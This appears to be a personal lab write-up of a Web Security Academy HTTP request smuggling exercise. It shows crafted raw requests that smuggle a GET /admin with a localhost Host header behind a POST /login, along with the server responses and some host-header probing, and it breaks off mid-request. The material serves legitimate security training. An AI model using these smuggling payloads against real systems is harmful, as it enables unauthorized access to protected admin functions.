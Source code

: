 1. since we need POST request to play around with the Te and CL - the only vector of attack is the **POST /login HTTP/1.1** request. - lets send it to repeater

2. use link of admin panel to send the request **GET /admin HTTP/1.1** to repeater

3. craft a combined request:
```
POST /login HTTP/1.1
Host: 0a2f00b603a96da1c04294f80075001b.web-security-academy.net
Cookie: session=gbZvHsAytPvTQtra4ySMIIyhl7J6tcAL
Connection: keep-alive
Content-Length: 0

GET /admin HTTP/1.1
Host: localhost
Cookie: session=gbZvHsAytPvTQtra4ySMIIyhl7J6tcAL
Connection: close

```
(or use the Group Tab option)

response:
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Keep-Alive: timeout=10
Content-Length: 26

"Missing parameter 'csrf'"HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 24

"Path /admin is blocked"
```

changing host to "**localhost**" or "**127.0.0.1**" yields the same response as the original host header **.web-security-academy.net**
```
"Path /admin is blocked" 
```
while setting host header to **192.168.0.1** yields a different error (back-end server?): 
```
    <html><head><title>Client Error: Forbidden</title></head><body><h1>Client Error: Forbidden</h1></body></html>
```
doing a TRACE command we get rsponse revealing it is the Front-end server who blocks our path to /admin)
www
"Frontend only accepts methods GET, POST, HEAD"
```
```
POST /post/comment HTTP/1.1
Host: 0a2f00b603a96da1c04294f80075001b.web-security-academy.net
Cookie: session=gbZvHsAytPvTQtra4ySMIIyhl7J6tcAL
Connection: keep-alive
Content-Length: 187
